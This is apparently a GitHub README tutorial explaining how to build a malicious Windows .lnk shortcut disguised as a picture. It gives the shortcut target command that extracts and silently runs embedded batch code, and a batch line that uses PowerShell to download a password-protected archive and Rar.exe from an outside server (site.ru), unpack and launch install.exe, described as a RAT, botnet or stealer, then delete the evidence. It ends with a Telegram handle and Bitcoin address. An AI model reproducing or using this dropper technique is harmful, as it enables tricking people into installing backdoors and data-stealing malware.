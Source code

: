 <h1 align="center">lnk artifact</h1>

<p align="center">
	<i>Toxic shortcuts in Windows: an old artifact, not forgotten by hackers, but partially forgotten by forensics..</i>
</p>

-------
I welcome all friends, this is by no means an advertisement of a third-party resource, but you can find more detailed information on [Habr](https://habr.com/ru/company/group-ib/blog/493906/).

In this topic, I will show only how to use it for my own purposes.
All we need is the winrar archiver, or rather Rar.exe and our malicious RMS or RAT or BOTNET or STEALER file, etc. etc. Next, we pack our malicious file called install.exe into an archive with a password, password: 123321, the name of the archive at the output is install.rar, upload the Rar.exe and install.rar files to our server and give both files permission 777 to read, write and execution.

We have already dealt with the introductory part, let's proceed to the assembly.

We will mask it under the picture, therefore we create a shortcut on the desktop and indicate the code in the location:

---
~~~bat
%COMSPEC% /c "copy /Y image.lnk %temp%\1&findstr /c:"@ECHO" %temp%\1>%temp%\s.bat&start /MIN %TEMP%\s.bat&exit"
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/W1HMyrnr/1.png" />
</p>

Next, we set the name of what is in the location: image

<p align="center">
	<img src="https://i.postimg.cc/2Sh0n0my/2.png" />
</p>

Next, go to the properties of the lnk file and remove the working folder

<p align="center">
	<img src="https://i.postimg.cc/Kv62ZpJ8/3.png" />
</p>

And optionally we put any icon, but since we want to disguise it as a picture, we select the jpg icon.

<p align="center">
	<img src="https://i.postimg.cc/4dY1WPtr/4.png" />
</p>

Open image.lnk in any text editor Notepad++ in my case, version 7.8.6 (Open np++ and transfer our lnk file to the main window) and add our code to download and launch the backdoor from the server to the next line:

---
~~~bat
@ECHO OFF && IF EXIST "%temp%\lnkexp.txt" (exit) ELSE echo lnkexp»%temp%\lnkexp.txt && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/install.rar', '%temp%/install.rar') && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/Rar.exe', '%temp%/Rar.exe') && %temp%\Rar.exe x -t -o+ -p123321 %temp%\install.rar %temp%\ && %temp%\install.exe && del /f /q %temp%\install.rar && del /f /q %temp%\Rar.exe && exit
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/26znJfJb/5.png" />
</p>


That's all, our lnk is ready, and everything that I think further is intuitive.
Link to youtube: [www.youtube.com](https://youtu.be/LOv5SX6uaHM)

### Support
Telegram: @Official_Mr_Robot

BTC: 1PoieWSbe1A7o2nAuXE37ncQHnGqxcdhJc
